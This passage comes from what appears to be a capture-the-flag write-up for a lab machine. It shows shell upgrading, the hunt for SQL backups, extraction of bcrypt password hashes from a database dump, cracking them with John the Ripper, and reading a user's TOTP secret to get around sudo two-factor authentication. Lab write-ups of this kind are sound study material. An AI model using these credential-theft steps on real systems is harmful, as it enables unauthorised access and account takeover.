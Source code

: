 ```plaintext
bill@jewel:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

We can't use `sudo -l` because we don't know bill's password.

Let's find backup or config files in hope to discover passwords:

```plaintext
bill@jewel:~$ find / -name *.sql -type f 2>/dev/null
/var/backups/dump_2020-08-27.sql
/usr/share/postgresql/11/extension/citext--1.4--1.5.sql
...

bill@jewel:~$ grep -n password /var/backups/dump_2020-08-27.sql
132:    password_digest character varying
229:COPY public.users (id, username, email, created_at, updated_at, password_digest) FROM stdin;
```

Let's dig around line 229:

```sql
--
-- Data for Name: users; Type: TABLE DATA; Schema: public; Owner: rails_dev
--

COPY public.users (id, username, email, created_at, updated_at, password_digest) FROM stdin;
2       jennifer        jennifer@mail.htb       2020-08-27 05:44:28.551735      2020-08-27 05:44:28.551735      $2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO
1       bill    bill@mail.htb   2020-08-26 10:24:03.878232      2020-08-27 09:18:11.636483      $2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW
\.
```

Let's ask my old pall John if he knows them:

```plaintext
jennifer:$2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO
bill:$2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW
```

```plaintext
$ john hashes.txt --wordlist=/usr/share/wordlists/passwords/rockyou.txt --format=bcrypt
```

I found bill's password but not jennifer one.

`bill` / `spongebob`

Trying sudo again we are asked for a verification code, it reminds me when
I set up OTP with [`libpam-google-authenticator`](https://wiki.archlinux.org/index.php/Google_Authenticator) for a SSH server.

We can find bill's OTP private key in his home directory:

```plaintext
bill@jewel:~$ cat .google_authenticator
2UQI3R52WFCLE6JTLDCSJYMJH4
" WINDOW_SIZE 17
" TOTP_AUTH
```
